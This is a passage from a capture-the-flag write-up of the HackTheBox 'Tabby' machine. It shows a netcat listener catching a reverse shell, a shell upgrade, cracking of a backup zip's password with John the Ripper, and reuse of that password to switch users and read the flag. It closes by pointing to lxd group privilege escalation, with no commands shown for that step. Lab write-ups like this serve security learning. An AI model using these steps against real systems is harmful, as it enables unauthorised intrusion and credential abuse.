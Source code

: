 ```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ rlwrap nc -lvnp 4444                                                                                                         1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49454
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$
```
## Getting the user flag
We find a zip file which was password protected, transfer the file to our machine with help of netcat and cracked it by using john the ripper.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ zip2john 16162020_backup.zip  > hash

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cat hash
16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c
178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8
e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e
11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-11-07 21:21) 0.5154g/s 5341Kp/s 5341Kc/s 5341KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We cracked the zip file and the password is `admin@it`. Turns out this is the password for the user ash as well.
```shell
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ whoami
whoami
ash
ash@tabby:/var/www/html/files$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:/var/www/html/files$ cd /home/ash
ash@tabby:~$ cat user.txt
cat user.txt
70d7a301277d4285e8ff1ff443b3c77b
```
## Privilege escalation
We see that the user ash is part of the lxd group. On googling lxd priv esc, came across this [article](https://www.hackingarticles.in/lxd-privilege-escalation/).
Now we just have to follow the commands as it is in the article and we are able to get root!
```shell
```